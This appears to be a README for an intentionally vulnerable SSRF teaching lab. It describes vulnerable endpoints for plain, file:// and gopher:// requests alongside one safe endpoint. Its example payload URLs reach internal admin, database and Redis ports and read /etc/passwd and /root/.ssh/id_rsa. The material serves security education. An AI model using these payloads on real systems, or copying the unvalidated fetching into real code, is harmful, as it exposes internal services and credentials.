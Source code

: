 ### Access the Application

Open your browser and navigate to: `http://localhost:3000`

## 🎯 Attack Vectors Demonstrated

### 1. Basic SSRF (`/vulnerable`)
- **Vulnerability**: Direct URL usage without validation
- **Attack**: Access internal services via `http://localhost:PORT/endpoint`
- **Impact**: Internal service discovery and data exfiltration

### 2. Request Library SSRF (`/vulnerable-request`)
- **Vulnerability**: Using `request` library without proper validation
- **Attack**: Different protocol handling and request smuggling
- **Impact**: Bypass some security controls

### 3. File Protocol SSRF (`/vulnerable-file`)
- **Vulnerability**: Allowing `file://` protocol access
- **Attack**: Local file disclosure using `file:///path/to/file`
- **Impact**: Sensitive file access (passwords, configs, keys)

### 4. Gopher Protocol SSRF (`/vulnerable-gopher`)
- **Vulnerability**: Allowing `gopher://` protocol access
- **Attack**: Advanced protocol-based attacks
- **Impact**: Bypass filters and access internal services

### 5. Safe Implementation (`/safe`)
- **Security**: Proper URL validation and whitelisting
- **Protection**: Domain whitelist, protocol validation, internal network blocking

## 🎯 Exploitation Examples

### Internal Service Access
```bash
# Access internal admin panel
http://localhost:3000/vulnerable?url=http://localhost:8080/admin

# Access internal database
http://localhost:3000/vulnerable?url=http://localhost:3306/api/data

# Access internal Redis
http://localhost:3000/vulnerable?url=http://localhost:6379/cache
```

### File Access Attacks
```bash
# Read system files
http://localhost:3000/vulnerable-file?url=file:///etc/passwd

# Read application config
http://localhost:3000/vulnerable-file?url=file:///app/package.json

# Read SSH keys
http://localhost:3000/vulnerable-file?url=file:///root/.ssh/id_rsa
```
